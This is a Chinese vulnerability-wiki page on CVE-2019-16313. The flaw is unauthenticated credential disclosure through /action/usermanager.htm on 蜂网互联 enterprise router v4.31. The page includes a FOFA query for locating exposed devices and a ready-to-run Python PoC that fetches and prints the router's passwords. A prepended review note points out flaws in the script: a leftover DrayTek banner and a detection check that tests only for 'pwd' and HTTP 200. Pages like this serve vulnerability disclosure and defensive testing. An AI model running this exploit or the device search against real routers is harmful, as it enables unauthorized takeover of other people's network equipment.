




# 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：蜂网互联企业级路由器v4.31
- 本文讨论：CVE-2019-16313 action/usermanager.htm
- 版本、权限与配置前提：无认证请求；4.31
- 资料类型：凭据泄露脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 脚本banner误写DrayTek企业网络设备，明确复制残留
- 正文state3代表不受影响但PoC只pwd+200，未解析state或有效凭据
- 缺原始CVE/厂商补丁来源

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 厂商英文标识、state语义及安全版本待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

```
蜂网互联企业级路由器v4.31
```

## 网络测绘

```
app="蜂网互联-互联企业级路由器"
```

## 漏洞复现




登录页面登录后可以看到，账号密码存在接口访问




而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码




- 不存在漏洞时  state值为 3

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
